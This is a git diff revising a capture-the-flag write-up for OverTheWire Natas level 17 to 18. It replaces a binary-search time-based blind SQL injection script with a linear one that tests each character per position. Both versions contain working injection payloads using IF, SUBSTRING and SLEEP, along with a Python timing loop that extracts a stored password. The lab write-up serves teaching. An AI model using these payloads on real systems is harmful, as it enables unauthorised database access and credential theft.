

Update Natas 17 to 18 writeup to match actual script and remove level page link

diff --git a/overthewire/natas/Level-17-18.md b/overthewire/natas/Level-17-18.md
@@ -2,8 +2,7 @@
 
 **Category:** OverTheWire / Natas  
 **Difficulty:** Hard  
-**Date:** 2026-08-24  
-**Level page:** [natas17.html](https://overthewire.org/wargames/natas/natas17.html)
+**Date:** 2026-08-24
 
 ## Goal
 
@@ -44,26 +43,31 @@ The page itself never showed anything either way — just the empty output box a
 
 ![Blank output regardless of the injected condition](images/natas-17-18-blank-output.png)
 
-With a working true/false timing oracle, wrote a script to recover the password with a binary search per character instead of trying every character linearly — much fewer requests per position:
+With a working true/false timing oracle, wrote a script to recover the password one character at a time, trying every character in the charset for each position until the timing confirms a match:
 
     payload = (
-        f'natas18" AND '
-        f'IF(ASCII(SUBSTRING(password,{pos},1))>{mid},'
+        f'natas18" AND IF('
+        f'BINARY SUBSTRING(password,1,{position})='
+        f'"{password + char}",'
         f'SLEEP(2),0)#'
     )
 
-    start = time.time()
-    s.post(URL, data={"username": payload}, timeout=5)
-    elapsed = time.time() - start
+    response = requests.post(
+        URL,
+        data={"username": payload},
+        auth=AUTH,
+        timeout=5,
+    )
 
-    if elapsed > 1.5:
-        low = mid + 1
-    else:
-        high = mid
+    elapsed = response.elapsed.total_seconds()
 
-For each of the 32 positions, this binary-searches the ASCII value of that character between 32 and 126 — a slow response (>1.5s) means the real character's ASCII value is higher than the midpoint, a fast one means it's lower or equal, narrowing the range until the exact character is found.
+    if elapsed > 2:
+        password += char
+        break
 
-![solve.py doing a binary search per character using response timing as the oracle](images/natas-17-18-solve-script.png)
+For each position, this checks whether the password's prefix so far (`password + char`) matches the real password's first `position` characters — `BINARY` keeps it case-sensitive. A ~2s response confirms that character is correct, and the loop moves on to the next position.
+
+![solve.py trying each character per position, using response timing as the oracle](images/natas-17-18-solve-script.png)
 
 Ran it and watched each position resolve in turn:
 
@@ -89,4 +93,4 @@ All 32 positions eventually resolved to the full password:
 
 ## Key Takeaway
 
-Removing every visible difference between a true and false query doesn't remove the injection — it just forces the oracle into a different channel. `IF(condition, SLEEP(n), 0)` turns response latency itself into a boolean signal, and combining that with `ASCII(SUBSTRING(...))` and a binary search per character keeps the number of requests manageable (about 7 per character instead of up to 94) even with no output to read at all.
+Removing every visible difference between a true and false query doesn't remove the injection — it just forces the oracle into a different channel. `IF(condition, SLEEP(n), 0)` turns response latency itself into a boolean signal: a slow response confirms the guessed prefix is correct, a fast one means try the next character. No output ever needs to come back for the data to be extractable.
